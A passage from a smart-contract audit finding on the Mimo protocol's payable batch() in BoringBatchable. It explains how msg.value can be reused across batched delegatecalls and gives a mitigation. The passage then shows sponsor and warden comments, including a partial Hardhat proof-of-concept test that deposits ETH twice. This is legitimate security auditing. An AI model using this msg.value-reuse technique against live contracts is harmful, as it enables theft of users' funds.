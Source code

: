 For example suppose that the owner grant access to the function

      function goodFunction() public 

This function has the selector `0x0d092393` . However, for some reason. the owner mistyped the selector and grant access to non existing function `0x0d09392`.

Then if the target contract has the so common function.

    fallback() external payable {  }

Then the attacker can drain wallet funds using this selector as I explained above.

### [](#recommended-mitigation-steps-7)Recommended Mitigation Steps

The solution is pretty straightforward.

Remove `payable` from `batch()` in `BoringBatchable`.

**[horsefacts (warden) commented](https://github.com/code-423n4/2022-08-mimo-findings/issues/153#issuecomment-1208687301):**

> Agree this is possible. I would note that there is a [big warning](https://github.com/code-423n4/2022-08-mimo/blob/eb1a5016b69f72bc1e4fd3600a65e908bd228f13/contracts/libraries/BoringBatchable.sol#L8) at the top of `BoringBatchable` that links this very blog post.

**[RayXpub (Mimo) commented](https://github.com/code-423n4/2022-08-mimo-findings/issues/153#issuecomment-1210483318):**

> We are not modifying any state in the `MimoProxy` based on msg.value, so this doesn’t apply here. Please refer to our test case [here](https://github.com/code-423n4/2022-08-mimo/blob/eb1a5016b69f72bc1e4fd3600a65e908bd228f13/test/02_integration/MIMOVaultActions.test.ts#L226).

**[peritoflores (warden) commented](https://github.com/code-423n4/2022-08-mimo-findings/issues/153#issuecomment-1212105445):**

> Hi @RayXpub . I found that there is an error in the test case that you mentioned. The test is passing because the contract has no ETH and you call batch with false parameter.
> 
> The second delegatecall is reverting. However, by design delegatecall will not revert the main transaction and instead will return false that is ignored in this case.
> 
> To show you this I have created a PoC with a few modification to your original test. I just send ETH before and then compared that the amount deposited was double.
> 
>     it("PoC: should be able to reuse msg.value for multiple deposits", async () => {
>     const { mimoProxy, vaultActions, vaultsDataProvider, wmatic } = await setup();
>     
>     //Send ETH to the proxy RECEIVE EXTERNAL PAYABLE
>     const [owner] = await ethers.getSigners();
>     owner.sendTransaction({ to: mimoProxy.address, value: DEPOSIT_AMOUNT });
>     await mimoProxy.execute(vaultActions.address, vaultActions.interface.encodeFunctionData("depositETH"), {
>       value: DEPOSIT_AMOUNT,
>     });
>     const vaultIdBefore = await vaultsDataProvider.vaultId(wmatic.address, mimoProxy.address);
>     const vaultBalanceBefore = await vaultsDataProvider.vaultCollateralBalance(vaultIdBefore);
>     const data = vaultActions.interface.encodeFunctionData("depositETH");
>     mimoProxy.batch(
>       [
>         mimoProxy.interface.encodeFunctionData("execute", [vaultActions.address, data]),
>         mimoProxy.interface.encodeFunctionData("execute", [vaultActions.address, data]),
>       ],
>       true,
>       { value: DEPOSIT_AMOUNT },
>     );
>     const vaultId = await vaultsDataProvider.vaultId(wmatic.address, mimoProxy.address);
>     const vaultBalanceAfter = await vaultsDataProvider.vaultCollateralBalance(vaultId);